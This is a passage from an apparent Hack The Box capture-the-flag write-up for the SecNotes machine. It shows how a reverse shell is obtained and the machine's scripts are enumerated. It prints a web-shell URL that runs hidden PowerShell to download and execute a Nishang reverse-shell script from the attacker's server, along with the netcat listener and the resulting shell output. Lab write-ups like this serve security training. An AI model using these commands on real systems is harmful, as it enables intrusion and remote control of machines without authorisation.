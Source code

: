 At this point we can try a reverse shell. I prefer Powershell reverse shells, to php.

Copy Nishang's Invoke-PowerShellTcp script to a www directory and add the line `Invoke-PowerShellTcp -Reverse -IPAddress <your ip> -Port 9001` to the bottom of the file

Run a simple python web server

`python -m SimpleHTTPServer 80`

and setup a listener

`nc -lvnp 9001`

Then run the following url to invoke it and connect back to your listener

`http://10.10.10.97:8808/iisstart.php?cmd=C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c iex (New-Object Net.WebClient).DownloadString("http://<your ip>/rev.ps1")`

{% highlight plaintext %}
root@kali:~/HTB/secnotes# nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.10.97] 49693
Windows PowerShell running as user SECNOTES$ on SECNOTES
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\inetpub\new-site>
{% endhighlight %}

The User flag is available under C:\Users\Tyler\Desktop\

We also see from shortcuts on the Desktop, one of which is `bash.lnk`. Interesting.

In Tyler's User folder, there are two folders of interest.
..* cleanup
..* secnotes_contacts

## Cleanup
In the cleanup directory we find `cleanup.ps1`. This is where we found the code that removes files that don't start with iisstart, referenced earlier

{% highlight powershell %}
while($true) {
        Write-Host "Cleaning up new-site!"
        Get-ChildItem -Path "C:\inetpub\new-site" -Exclude iisstart.* | Select -ExpandProperty FullName | Remove-Item -Force

        Write-Host "Sleeping for 5 minutes..."
        Start-Sleep -s 300
}
{% endhighlight %}

## Secnotes Contacts
The secnotes_contacts.ps1 file checks for the existence of .txt files that include urls and then runs
`(iwr $url -WebSession $session -TimeoutSec 1 -UseBasicParsing).content`

